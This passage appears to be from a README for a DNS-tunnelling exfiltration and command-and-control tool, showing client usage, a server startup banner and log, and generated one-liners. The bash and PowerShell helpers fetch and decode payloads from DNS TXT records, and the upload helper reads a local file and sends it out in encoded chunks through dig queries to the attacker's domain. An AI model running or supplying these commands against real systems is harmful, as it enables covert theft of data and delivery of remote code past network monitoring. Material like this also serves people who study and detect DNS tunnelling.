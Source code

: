 Exfiltrate command output with compression and encryption
```bash
python3 client.py --domain sub.yourdomain.com --command "whoami" --compress --key abcd1234
```

Exfiltrate command output without compression or encryption
```bash
python3 client.py --domain sub.yourdomain.com --command "whoami"
```

## Runtime Example:
```
$ python3 server.py --domain sub.invalid.domain --encrypt --compress
      ██            ██                        
    ██░░██        ██░░██                      
    ██░░▒▒████████▒▒░░██                ████  
  ██▒▒░░░░▒▒▒▒░░▒▒░░░░▒▒██            ██░░░░██
  ██░░░░░░░░░░░░░░░░░░░░██            ██  ░░██
██▒▒░░░░░░░░░░░░░░░░░░░░▒▒████████      ██▒▒██
██░░  ██  ░░██░░  ██  ░░  ▒▒  ▒▒  ██    ██░░██
██░░░░░░░░██░░██░░░░░░░░░░▒▒░░▒▒░░░░██████▒▒██
██░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░██░░██  
██░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░██░░██  
██░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░██    
██▒▒░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░██    
██▒▒░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░██    
██▒▒░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░▒▒██    
  ██▒▒░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░▒▒██      
    ██▒▒░░▒▒▒▒░░▒▒░░░░░░▒▒░░▒▒▒▒░░▒▒██        
      ██░░████░░██████████░░████░░██          
      ██▓▓░░  ▓▓██░░  ░░██▓▓  ░░▓▓██          

                                                                                                         
██████╗ ███╗   ██╗███████╗ ██████╗██╗  ██╗ ██████╗ ███╗   ██╗██╗  ██╗███████╗██████╗ 
██╔══██╗████╗  ██║██╔════╝██╔════╝██║  ██║██╔═══██╗████╗  ██║██║ ██╔╝██╔════╝██╔══██╗
██║  ██║██╔██╗ ██║███████╗██║     ███████║██║   ██║██╔██╗ ██║█████╔╝ █████╗  ██████╔╝
██║  ██║██║╚██╗██║╚════██║██║     ██╔══██║██║   ██║██║╚██╗██║██╔═██╗ ██╔══╝  ██╔══██╗
██████╔╝██║ ╚████║███████║╚██████╗██║  ██║╚██████╔╝██║ ╚████║██║  ██╗███████╗██║  ██║
╚═════╝ ╚═╝  ╚═══╝╚══════╝ ╚═════╝╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═══╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                                                                     
[INFO] Generated AES key: 34ae278405a19dac3597d10eb39cb4581f5f206ebe7899a2e98d127d5af8811c
[INFO] Listening on 0.0.0.0:53 for 'sub.invalid.domain'
[INFO] File Download Helpers:
[INFO] File Download Helper for (linux) at c5cb.sub.invalid.domain
payload=''; for i in {1..0}; do part=$(dig -t TXT ${i}.3d64.sub.invalid.domain +short | tr -d '"'); payload+="$part"; done; echo "$payload" | base64 -d

[INFO] File Download Helper for (windows) at 420c.sub.invalid.domain
powershell -NoProfile -Command "$payload=''; for ($i=1; $i -le 0; $i++) { $txt=(Resolve-DnsName -Type TXT $i.3d64.sub.invalid.domain -ErrorAction SilentlyContinue).Strings -join ''; $payload+=$txt }; [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($payload))"

[INFO] File Download Helper for (macos) at cb99.sub.invalid.domain
payload=''; for i in {1..0}; do part=$(dig -t TXT ${i}.3d64.sub.invalid.domain +short | tr -d '"'); payload+="$part"; done; echo "$payload" | base64 -d

[INFO] File Upload Helpers:
[INFO] File Upload Helper for (linux) at 097c.sub.invalid.domain
session=$(head -c4 /dev/urandom | od -An -tx1 | tr -d ' \n'); raw=$(cat ~/wee.txt); b32=$(echo -n '$raw' | base64 | base32 | tr -d '=' | tr 'A-Z' 'a-z'); total_chunks=$(( (${#b32} + 47) / 48 )); for i in $(seq 0 $((total_chunks - 1))); do chunk=${b32:$((i*48)):48}; dig +short TXT "$session.$i.$chunk.3d64.sub.invalid.domain"; sleep 0.1; done; dig +short TXT "$session.$total_chunks.eof.3d64.sub.invalid.domain"

```